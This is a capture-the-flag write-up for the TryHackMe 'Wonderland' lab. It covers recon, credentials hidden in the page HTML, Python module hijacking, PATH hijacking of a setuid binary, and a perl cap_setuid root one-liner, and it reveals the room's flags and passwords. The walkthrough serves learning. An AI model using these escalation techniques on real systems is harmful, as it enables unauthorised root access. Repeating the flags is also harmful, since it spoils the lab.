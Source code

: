 # Tryhackme.com Room : Wonderland
`https://tryhackme.com/room/wonderland`


# Instance
```
export IP=10.10.232.238
```

# Nmap
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
```

Looking at the website, we get the message "Follow the white rabbit" with a rabbit image.

Let's gobuster :
```
/img (Status: 301)
/index.html (Status: 301)
/r (Status: 301)
```

We find 3 images in `/img` :
```
alice_door.jpg
alice_door.png
white_rabbit_1.jpg
```

The page `/r` give us :
```
Keep Going.

"Would you tell me, please, which way I ought to go from here?"
```

Might need to bruteforce our way down the path ? `/r/XX/XXX/XXX`

Let's check out the images first.

Running steghide on `white_rabbit_1.jpg` without a passphrase we get `hint.txt` :
```
follow the r a b b i t
```

So I'm guessing the path is `/r/a/b/b/i/t`
We get this page :
```
Open the door and enter wonderland

"Oh, you’re sure to do that," said the Cat, "if you only walk long enough."

Alice felt that this could not be denied, so she tried another question. "What sort of people live about here?"

"In that direction,"" the Cat said, waving its right paw round, "lives a Hatter: and in that direction," waving the other paw, "lives a March Hare. Visit either you like: they’re both mad."
```

The `alice_door` image is the png version here.

Looking at the html, we find this :
```
<p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail</p>
```

So it can either be some ssh credentials or the passphrase for `alice_door.jpg`

So yeahhh... It is the ssh credentials.

Now that we are logged in as alice, we find a `root.txt` file and `walrus_and_the_carpenter.py`.

The root.txt file is not readable.

The webserver is runned as the `tryhackme` user
```
/home/tryhackme/server -p 80
```

Running `sudo -l` we find :
```
User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

The python script simply choose a random line from a multi line string defined in the file. It is only writable by root but it can be runned as sudo. Not sure we can really do something with this. Let's check the rest.

We find that there is 3 other users:
```
rabbit
hatter
tryhackme
```

But we can't access their home directory.
Doesn't seem to be any dangerous setuid binaries accessible from this user `find / -perm -4000`.

Hmmm trying to run the python script as `sudo` I get an error. What does the `(rabbit)` means here ?

Ok soo, I can run the script as `rabbit` user using `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`

Hmmmm... What can I do with this... I can't modify the python script, maybe i can run multiple python files at the same time ? hmm nop, can't add a single character after `.py`. Also need to specify the fullpath to the python script.

I don't need to specify the fullpath to `python3.6` tho. Tried to create my own `python3.6` binary, place in in `/home/alice/bin` and add this path as the first path in `$PATH` but it didn't work. When running `sudo -u rabbit` the `/usr/bin/python3.6` binary is called.

Can't overwrite the `python3.6` file in `/usr/bin`. hmm

The secure path is 
```
/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
```

Maybe we can write a python3.6 executable to /usr/local/bin ?
Noppp, can't write to any of these folders...

So i runned linpeas. Found that perl has setuid capabilities.
```
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```
We should be able to get root using `perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'`
But we can't execute perl, only the user `hatter` can..


Maybe we can hijack the `random` libary so that it execute our own code ??
Hmm well, `/usr/lib/python3.6/random.py` is not writable...

But the first path that is being looked at by the python interpreter is the current directory. Adding a `random.py` in `/home/alice`, it is executed when `walrus..py` is runned.

Let's test using `sudo -u rabbit`.

YESS it's working :).

We can simply spawn a shell by writing this to `/home/alice/random.py` :
```
import pty
pty.spawn("bin/sh")
```

Andd now we're `rabbit` !

We got a `teaParty` executable in `/home/rabbit`.
Executing it we get :
```
./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Tue, 07 Jul 2020 01:58:37 +0000
Ask very nicely, and I will give you some tea while you wait for him
```

Seems like we can enter some input here. I get a segfault when pressing enter (With or without a string).

Seems like the date outputed here is `current date + 1h`

I runned strings on the binary and I find the string `Segmentation fault (core dumped)`
So it might not be a real segmentation fault..

Running ltrace we get :
```
ltrace ./teaParty
setuid(1003)                                     = -1
setgid(1003)                                     = -1
puts("Welcome to the tea party!\nThe Ma"...Welcome to the tea party!
The Mad Hatter will be here soon.
)     = 60
system("/bin/echo -n 'Probably by ' && d"...Probably by Tue, 07 Jul 2020 02:17:08 +0000
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 0
puts("Ask very nicely, and I will give"...Ask very nicely, and I will give you some tea while you wait for him
)      = 69
getchar(1, 0x559fdb626260, 0x7faf59bd68c0, 0x7faf598f9154
) = 10
puts("Segmentation fault (core dumped)"...Segmentation fault (core dumped)
)      = 33
+++ exited (status 33) +++
```

Looking at a write up, we finally find the `user.txt` flag... it was in `/root/user.txt`... The hint was `everythning is upside down` and we had the `root.txt` flag in `/home/alice`. Didn't think of that. Here is the flag (Would have found it anyways once I had root access to the box) :
```
thm{"Curiouser and curiouser!"}
```

Now back to the teaParty binary.
Looking at the write up, they mention that `date` is executed without fullpath. That was enough of an hint.

We simply create a script in `/home/rabbit/bin/date` and add this script to the path (`PATH=/home/rabbit/bin:$PATH`).

This way our script is executed in place of `date`.
Our `date` script contains:
```
#!/bin/bash
/bin/sh
```
And thats enough to give us a shell.

we find a file named `password.txt` in `/home/hatter` :
```
WhyIsARavenLikeAWritingDesk?
```

And it's the ssh password. Coul have continued inside my session spawned via the teaParty binary but let's get a clean shell by connecting via ssh.

Now, we already found a way to escalate to root from the `hatter` user using `perl` capabilities :
```
perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```

And we are root !
We can `cat /home/alice/root.txt` and get the last flag :
```
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
```


-------------------------------------------------------

Looking at writeups, look like I missed this string :
```
/bin/echo -n 'Probably by ' && date --date='next hour' -R
```
When I ran `strings` on the binary. 

Not sure why I didn't see it but this would have told me that we where running the `date` command without full path